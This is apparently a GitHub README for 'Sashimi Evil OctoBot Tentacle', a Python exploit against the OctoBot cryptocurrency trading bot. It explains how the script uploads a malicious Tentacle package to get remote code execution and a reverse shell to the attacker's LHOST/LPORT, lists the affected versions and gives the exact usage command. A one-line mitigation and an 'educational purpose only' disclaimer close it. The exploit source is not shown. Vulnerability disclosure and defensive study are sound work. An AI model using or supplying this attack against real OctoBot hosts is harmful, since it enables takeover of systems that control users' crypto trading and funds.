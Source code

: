 
# Sashimi Evil OctoBot Tentacle

Sashimi Evil OctoBot Tentacle is a python script that exploits a vulnerability that lies in the Tentacles upload functionality of the cryptocurrency trading bot [OctoBot](https://octobot.online/) which is designed to be easy to use and customizable. Indeed, this open source trading bot has the particularity of offering to theirs users the possibility to upload their own trading algorithms.

Sashimi Evil OctoBot Tentacle takes advantage of this feature to upload a malicious crafted package that leads to an arbitrary code execution.

![Sahimi Evil OctoBot Tentacle](https://i.ibb.co/M26vLMM/Sashimi-octobot-killer.png)

### Affected versions
All OctoBot  versions until the latest version (0.4.0b12) are vulnerable.
However, this exploit will work from version 0.4.0b3 until version 0.4.3.

### Proof of concept
(PoC Tested on Octobot 0.4.0b10)

[![Video POC Sashimi OctoBot Vulnerability](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=okL0azY1BE4)


### Requirement

* Python 3 (Must already have it if you are OctoBot user :D)
* An OctoBot target host platform. 

### How to use
This script is very simple to use only needs 4 parameters.
* `--RHOST`:  Refers to the IP of the target machine. (OctoBot IP address or hostname)
* `--RPORT`: Refers to the PORT of the target machine. (OctoBot use the port 5001 by default)
* `--LHOST` : Refers to the IP of your machine. (Can be local or external, depend who you are targeting :)
* `--LPORT`: Refers to the open port of your machine. (Must have an open port on your machine.)

Then the command is as follow:
```bash
python3 sashimi.py --RHOST TARGET_IP --RPORT TARGET_PORT --LHOST YOUR_IP --LPORT YOUR_OPEN_PORT
```
Be patient for around 3 min, the time to download, create and upload the malicious Tentacle package, and you should have a remote access to the machine. That's it!

### Mitigation
To protect against this attack, set a password in your OctoBot platform or add an .htpasswd.

### Note
FOR EDUCATIONAL PURPOSE ONLY.
